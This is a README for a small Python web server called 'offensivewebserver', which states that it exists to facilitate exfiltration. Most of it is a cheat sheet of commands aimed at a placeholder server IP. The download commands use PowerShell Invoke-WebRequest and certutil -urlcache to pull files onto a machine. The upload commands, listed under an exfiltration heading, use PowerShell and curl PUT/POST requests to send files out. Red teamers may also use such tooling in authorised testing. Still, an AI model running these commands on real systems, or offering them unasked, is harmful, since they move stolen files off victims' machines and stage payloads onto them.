 # offensivewebserver
A simple Python web server that is case-insensitive and allows file uploads via POST and PUT methods to facilitate exfiltration.

# USE
run the script in your desired location with optional `--port` parameter. The default port is 443.

`ofensivewebserver [--port <PORT>]`

# DOWNLOAD METHODS
## Windows

```powershell
Invoke-WebRequest -Uri "http://<SERVER_IP>:<PORT>/<FILENAME>" -OutFile "<FILENAME_AT_DESTINATION>"
Invoke-RestMethod -Uri "http://<SERVER_IP>:<PORT>/<FILENAME>" -OutFile "<FILENAME_AT_DESTINATION>"
```

```
certutil -urlcache -split -f http://<SERVER_IP>:<PORT>/<FILENAME> <FILENAME_AT_DESTINATION>
```

# UPLOAD METHODS (EXFILTRATION)

## Windows

**BY METHOD PUT**
```powershell
Invoke-RestMethod -Uri http://<SERVER_IP>:<PORT>/<FILENAME_AT_DESTINATION> -Method Put -InFile "<FILE_TO_UPLOAD>"
```

**BY METHOD POST**
```powershell
 `Invoke-RestMethod -Uri http://<SERVER_IP>:<PORT> -Method Post -Headers @{ "File-Name" = "<FILENAME_AT_DESTINATION>" } -InFile "<FILE_TO_UPLOAD>"
```

## Linux

**BY METHOD PUT**
```bash
curl -T <FILE_TO_UPLOAD> http://<SERVER_IP>:<PORT>/<FILENAME_AT_DESTINATION>
```

**BY METHOD POST**
```bash
curl -X POST -H "File-Name: <FILENAME_AT_DESTINATION>" --data-binary @<FILE_TO_UPLOAD> http://<SERVER_IP>:<PORT>
```

# Final Words
Credits to the user Kremp from the F95Zone forum, who provided the base code that I adapted slightly. The original source code can be found at: https://f95zone.to/threads/small-python-script-to-run-local-case-insensitive-web-server.189695/

